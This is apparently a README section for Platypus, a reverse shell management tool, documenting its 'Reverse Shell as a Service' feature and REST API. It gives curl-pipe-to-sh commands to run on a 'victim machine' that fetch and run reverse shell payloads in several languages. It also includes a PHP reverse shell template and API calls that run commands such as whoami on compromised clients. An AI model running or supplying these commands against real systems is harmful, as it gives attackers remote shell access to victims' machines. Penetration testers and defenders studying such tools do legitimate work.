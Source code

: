 ## Reverse shell as a Service

Platypus is able to multiplex the reverse shell listening port. Port 8080 can receive reverse shell client connection, also there is a Reverse Shell as a Service (RaaS) running on this port.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.

To archive this, all you need is to construct a URL that indicates the target.

### Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4 | sh` on the victim machine

### Specifying language of reverse shell command (default: bash)

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4/python | sh` on the victim machine

### What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4/5.6.7.8/7331/python | sh` on the victim machine

### How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",__PORT__);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

## RESTful API

* `GET /client` List all online clients

```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "192.168.1.3:54798"
    ],
    "status": true
}
```

* `POST /client/:hash` execute a command on a specific client

```
# curl -X POST 'http://127.0.0.1:9090/client/0723c3bed0d0240140e10a6ffd36eed4' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```

* How to hash?

```
# echo -n "192.168.1.3:54798" | md5sum
0723c3bed0d0240140e10a6ffd36eed4  -
```
